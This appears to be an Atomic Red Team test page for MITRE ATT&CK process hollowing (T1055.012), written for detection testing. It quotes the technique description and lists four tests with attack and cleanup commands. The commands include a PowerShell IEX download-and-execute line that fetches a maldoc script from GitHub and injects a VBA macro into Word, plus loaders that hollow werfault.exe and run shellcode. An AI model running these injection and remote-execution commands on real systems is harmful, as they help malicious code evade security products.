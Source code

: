 # T1055.012 - Process Injection: Process Hollowing
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1055/012)
<blockquote>Adversaries may inject malicious code into suspended and hollowed processes in order to evade process-based defenses. Process hollowing is a method of executing arbitrary code in the address space of a separate live process.  

Process hollowing is commonly performed by creating a process in a suspended state then unmapping/hollowing its memory, which can then be replaced with malicious code. A victim process can be created with native Windows API calls such as <code>CreateProcess</code>, which includes a flag to suspend the processes primary thread. At this point the process can be unmapped using APIs calls such as <code>ZwUnmapViewOfSection</code> or <code>NtUnmapViewOfSection</code>  before being written to, realigned to the injected code, and resumed via <code>VirtualAllocEx</code>, <code>WriteProcessMemory</code>, <code>SetThreadContext</code>, then <code>ResumeThread</code> respectively.(Citation: Leitch Hollowing)(Citation: Elastic Process Injection July 2017)

This is very similar to [Thread Local Storage](https://attack.mitre.org/techniques/T1055/005) but creates a new process rather than targeting an existing process. This behavior will likely not result in elevated privileges since the injected process was spawned from (and thus inherits the security context) of the injecting process. However, execution via process hollowing may also evade detection from security products since the execution is masked under a legitimate process. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Process Hollowing using PowerShell](#atomic-test-1---process-hollowing-using-powershell)

- [Atomic Test #2 - RunPE via VBA](#atomic-test-2---runpe-via-vba)

- [Atomic Test #3 - Process Hollowing in Go using CreateProcessW WinAPI](#atomic-test-3---process-hollowing-in-go-using-createprocessw-winapi)

- [Atomic Test #4 - Process Hollowing in Go using CreateProcessW and CreatePipe WinAPIs (T1055.012)](#atomic-test-4---process-hollowing-in-go-using-createprocessw-and-createpipe-winapis-t1055012)


<br/>

## Atomic Test #1 - Process Hollowing using PowerShell
This test uses PowerShell to create a Hollow from a PE on disk with explorer as the parent.
Credit to FuzzySecurity (https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Start-Hollow.ps1)

**Supported Platforms:** Windows


**auto_generated_guid:** 562427b4-39ef-4e8c-af88-463a78e70b9c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| hollow_binary_path | Path of the binary to hollow (executable that will run inside the sponsor) | string | C:&#92;Windows&#92;System32&#92;cmd.exe|
| parent_process_name | Name of the parent process | string | explorer|
| sponsor_binary_path | Path of the sponsor binary (executable that will host the binary) | string | C:&#92;Windows&#92;System32&#92;notepad.exe|
| spawnto_process_name | Name of the process to spawn | string | notepad|


#### Attack Commands: Run with `powershell`! 


```powershell
. "$PathToAtomicsFolder\T1055.012\src\Start-Hollow.ps1"
$ppid=Get-Process #{parent_process_name} | select -expand id
Start-Hollow -Sponsor "#{sponsor_binary_path}" -Hollow "#{hollow_binary_path}" -ParentPID $ppid -Verbose
```

#### Cleanup Commands:
```powershell
Stop-Process -Name "#{spawnto_process_name}" -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - RunPE via VBA
This module executes notepad.exe from within the WINWORD.EXE process

**Supported Platforms:** Windows


**auto_generated_guid:** 3ad4a037-1598-4136-837c-4027e4fa319b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| ms_product | Maldoc application Word | string | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing) 
Invoke-MalDoc -macroFile "PathToAtomicsFolder\T1055.012\src\T1055.012-macrocode.txt" -officeProduct "#{ms_product}" -sub "Exploit"
```




#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #3 - Process Hollowing in Go using CreateProcessW WinAPI
Creates a process in a suspended state, executes shellcode to spawn calc.exe in a child process, and then resumes the original process.
- PoC Credit: (https://github.com/Ne0nd0g/go-shellcode#createprocess)

**Supported Platforms:** Windows


**auto_generated_guid:** c8f98fe1-c89b-4c49-a7e3-d60ee4bc2f5a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| hollow_binary_path | Path of the binary to hollow | string | C:&#92;Windows&#92;System32&#92;werfault.exe|
| hollow_process_name | Name of the process to hollow | string | werfault|


#### Attack Commands: Run with `powershell`! 


```powershell
$PathToAtomicsFolder\T1055.012\bin\x64\CreateProcess.exe -program "#{hollow_binary_path}" -debug
```

#### Cleanup Commands:
```powershell
Stop-Process -Name CalculatorApp -ErrorAction SilentlyContinue
Stop-Process -Name "#{hollow_process_name}" -ErrorAction SilentlyContinue
```





<br/>
<br/>

## Atomic Test #4 - Process Hollowing in Go using CreateProcessW and CreatePipe WinAPIs (T1055.012)
Create a process in a suspended state, execute shellcode to spawn calc.exe in a child process, and then resume the original process.
This test uses the CreatePipe function to create an anonymous pipe that parent and child processes can communicate over. This anonymous pipe
allows for the retrieval of output generated from executed shellcode.
- PoC Credit: (https://github.com/Ne0nd0g/go-shellcode#createprocesswithpipe)

**Supported Platforms:** Windows


**auto_generated_guid:** 94903cc5-d462-498a-b919-b1e5ab155fee





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| hollow_binary_path | Path of the binary to hollow | string | C:&#92;Windows&#92;System32&#92;werfault.exe|
| hollow_process_name | Name of the process to hollow | string | werfault|


#### Attack Commands: Run with `powershell`! 


```powershell
$PathToAtomicsFolder\T1055.012\bin\x64\CreateProcessWithPipe.exe -program "#{hollow_binary_path}" -debug
```

#### Cleanup Commands:
```powershell
Stop-Process -Name CalculatorApp -ErrorAction SilentlyContinue
Stop-Process -Name "#{hollow_process_name}" -ErrorAction SilentlyContinue
```





<br/>
